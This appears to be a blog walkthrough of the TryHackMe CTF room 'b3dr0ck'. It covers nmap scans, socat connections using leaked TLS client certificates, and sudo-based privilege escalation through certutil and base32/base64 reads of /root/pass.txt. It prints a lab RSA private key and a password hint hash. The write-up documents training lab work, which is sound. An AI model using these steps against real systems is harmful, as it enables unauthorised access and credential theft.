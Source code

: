 ```yaml
---
layout: post
title: Walkthrough - b3dr0ck
published: true
---
```


Tags: CTF, TLS, socat, sockets.
Description: Server trouble in Bedrock.
Difficulty: Easy
URL: [https://tryhackme.com/room/b3dr0ck](https://tryhackme.com/room/b3dr0ck)

* * *

## Notes

> Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...
> - He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
> - There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
> - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
> - Can you find all the Easter eggs?

Step one perform initial nmap scan `sudo nmap -Pn -sS -T4 -p- 10.10.77.166 -vvv` then enumerate further `sudo nmap -sC -sV -sT -Pn -O 10.10.77.166 -p22,80,4040,9009,54321`

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1a:c7:00:71:b6:65:f5:82:d8:24:80:72:48:ad:99:6e (RSA)
|   256 3a:b5:25:2e:ea:2b:44:58:24:55:ef:82:ce:e0:ba:eb (ECDSA)
|_  256 cf:10:02:8e:96:d3:24:ad:ae:7d:d1:5a:0d:c4:86:ac (ED25519)
80/tcp    open  http         nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://10.10.77.166:4040/
|_http-server-header: nginx/1.18.0 (Ubuntu)
4040/tcp  open  ssl/yo-main?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     <h1>Welcome to ABC!</h1>
|     <p>Abbadabba Broadcasting Compandy</p>
|     <p>We're in the process of building a website! Can you believe this technology exists in bedrock?!?</p>
|     <p>Barney is helping to setup the server, and he said this info was important...</p>
|     <pre>
|     Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
|     Bamm Bamm tried to setup a sql database, but I don't see it running.
|     Looks like it started something else, but I'm not sure how to turn it off...
|     said it was from the toilet and OVER 9000!
|_    Need to try and secure
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2022-08-30T15:55:13
|_Not valid after:  2023-08-30T15:55:13
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
9009/tcp  open  pichat?
| fingerprint-strings:
|   NULL:
 __          __  _                            _                   ____   _____
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|

|_    What are you looking for?
54321/tcp open  ssl/unknown
```

Port 9009 we can ask for a cert and a private key and it will be given. The service is the TCP socket that was listening with the simple service for us to retrieve the TLS credential files. Now we have to find the other TCP (TLS) helper service listening for authorized connections using these files we obtained.

Going back into the 9009 service and asking for help gets us another hint using this command we can connect to the service on 54321. `socat stdio ssl:10.10.77.166:54321,cert=9009.cert,key=9009.rsa,verify=0`

```

 __     __   _     _             _____        _     _             _____        _
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)



Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```

* * * 

## What is the barney.txt flag?

We can SSH into the server with the above credentials and get barneys flag.

![](/assets/b3dr0ck01.png)

```
barney@b3dr0ck:~$ sudo -l
[sudo] password for barney:
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

```
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$ sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Aug 30 15:55 barney.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 30 15:55 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 30 15:55 fred.certificate.pem
-rw-r----- 1 root root 1674 Aug 30 15:55 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 30 15:55 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 30 15:55 fred.serviceKey.pem
```

```
sudo /usr/bin/certutil fred fredflinstone
Generating credentials for user: fred (fredflinstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA6iiIBfgI4xvK3xVnhO1RmhM1hxjc/LDL8S3IN8RcnKvf9qiR
9NAOibBqHbQoYTWDHezR3oCWwEdU7EpLXiiD//qKoo0/+61mRnHXz8w8x5zYc5BT
aVN93AEzgJupfcOCR0fhTEfBzNQ8TfNHI59xQY8/R2prVJbD3QBiEmeNqt4bk8MF
MxaZGW02ZthkRig5VwSun/8WuJO2jSUHmPaetAoucdKnrg1KiYVeT2D3mayY15MX
vFz2Kd4n5j4cJj7hkTCWKtWUG4FKLyp92SRXvtszMsJtf/yEaUTVGDU7lLd1SIwM
OuBNR0Se2/xD2tpZqYLi5GUoDa9XglKqyl+A5QIDAQABAoIBADQbgOmTIKcpcCPk
p3y1MwuOasL9jW/OCBRLk9qVH+bdeKFzMcfA5PtO/s5NYQ8A0YS/RpS1GNcBCKzs
e4kgiv9TybYSqMJg+/mBK/1Z/cyN4r0UyPsPUVq8CbH88eLCtyMVo9VNwprKQAE4
ugP7X0Cvl+1UiT3xrvRnOWvPD3+OMKvbMX46/AmmGs9LLpyv0vOKj1q3yA3tKZSk
El5vXB80oke05h18tvBpPFGkoJPnUUkOjKCsx/bF4arEzLSpRDIMbBwf4SGYPfk3
VBLDgW539CUPkOLQjDP8cNrUYW3gVREITGuFguCLbWJ//Gj6wO2udAb5eo6pv7p0
U+KAnqECgYEA9vCydahMcWXDqQJH7AMOysuNhMMpGDnzpZTclMHKF0qyCS0NdiJp
cZniiQ3hC7JE3Dosl8CfItMFie/1UbUb0SEWDLPe8mGAOd8XltNKiJjFna6TEc+1
gbkuO+A7Zo1yjoYFO/9KCRBt/YT5b5GhKXet7KI8IOTVQAwPDEVF1OcCgYEA8r/I
2T3lo55HmIhErOzDfw5jT/dkVt0um/Y3wUuy36AZEUBucoWNTR7RF1jLStLnk1KO
JCg7f00N1NuhRQKD8cQ1iA0CwbffpkOfhK/GoykCTK/K/P+YDfugjdtXkC3bG4lr
MZ9ltN8ZyoWJ8KKwzJ+oRqDaOJZzU6G5v4p/dlMCgYBCcqRi2qWvQeXzfYSi8nOx
iDKNjgJp3XY9kSAF+1uJBvV/WJsttbbP9cuqe4yaHB9Bb3n+X7uyoDv2URafJO/W
R2PqiSAt8qSRbgGn+TUuKoXKl2ZFvbGmtZDGVeFGCDvSNCgGa/ydEcm3FWgVaIeI
ZAbuDP3HECx97oDCGYXf8wKBgQDXPkUak+7OQOedEZ9Lcfj67UgUPPnEqATPF+hi
RfwKnAv+JxKIC3G6Y0vllr9TzmS2VephlycCftF333NFHLDgLCmHRHogSSlPZQDK
B45rWE6IrwufgAdUxrybbFVdK7vv086vxnXJhlV5JSWlsKxyFFOCpNg6evUxv+JT
O7w/rwKBgHn/eV2jiqJISerDABd7RcHhIClNcNZJsgVm5Vq26OnMwRDeQuu9yhux
QlQPJnT24MF1lZtWLGMyCfHcULC6pUzNMVH42v8SOxghmUpSpxbuRhBWDhPvwLgh
G4sf3uOyIl5n/X+CB5LKK4si8+cbuiX5AGqfKE328PlhsdgnLtO7
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICoTCCAYkCAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MzAxNjU2MjVaFw0yMjA4MzExNjU2MjVaMBgxFjAUBgNVBAMMDWZy
ZWRmbGluc3RvbmUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDqKIgF
+AjjG8rfFWeE7VGaEzWHGNz8sMvxLcg3xFycq9/2qJH00A6JsGodtChhNYMd7NHe
gJbAR1TsSkteKIP/+oqijT/7rWZGcdfPzDzHnNhzkFNpU33cATOAm6l9w4JHR+FM
R8HM1DxN80cjn3FBjz9HamtUlsPdAGISZ42q3huTwwUzFpkZbTZm2GRGKDlXBK6f
/xa4k7aNJQeY9p60Ci5x0qeuDUqJhV5PYPeZrJjXkxe8XPYp3ifmPhwmPuGRMJYq
1ZQbgUovKn3ZJFe+2zMywm1//IRpRNUYNTuUt3VIjAw64E1HRJ7b/EPa2lmpguLk
ZSgNr1eCUqrKX4DlAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAHO163Qf3drbAeD6
bESefzUllv1Cqgs5vo/Ku4TuiZLAnpHnL9HUHaE29V/3vqJXyc/vzxxdBXqgjfq5
J1letQ5U56D0AJJhH114hh4RKe4EHn83Bl9E/AZ9hETTpDQ3N4a9sDs2/4B/hl8U
ZB3nzAnZQsESCjUWInjiqq8m6HoluJY8lO24jJ007Hbgw5+BGj496niufOvOf2df
8AX6P66idebbFgjLiM5rmo5hFQW0kBiEJy0b+E/nUGtJvabgePHBoQ4BC9NjaqIH
3+HVMnjmFUmN1/Sy3cEz0qWrmwFFQo+0VVi6Lx4a8EHck241VJ0+K7zLVysDgvov
mBJmhsM=
-----END CERTIFICATE-----
```

* * * 

## What is fred's password?

- We can use the above certs to socat into the 54321 and get freds password.

* * * 

## What is the fred.txt flag?

![](/assets/b3dr0ck02.png)

* * * 

## What is the root.txt flag?

```
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

Decode from base64 to base32 to md5 and throw it at crackstation to get root password then su

![](/assets/b3dr0ck03.png)

* * * 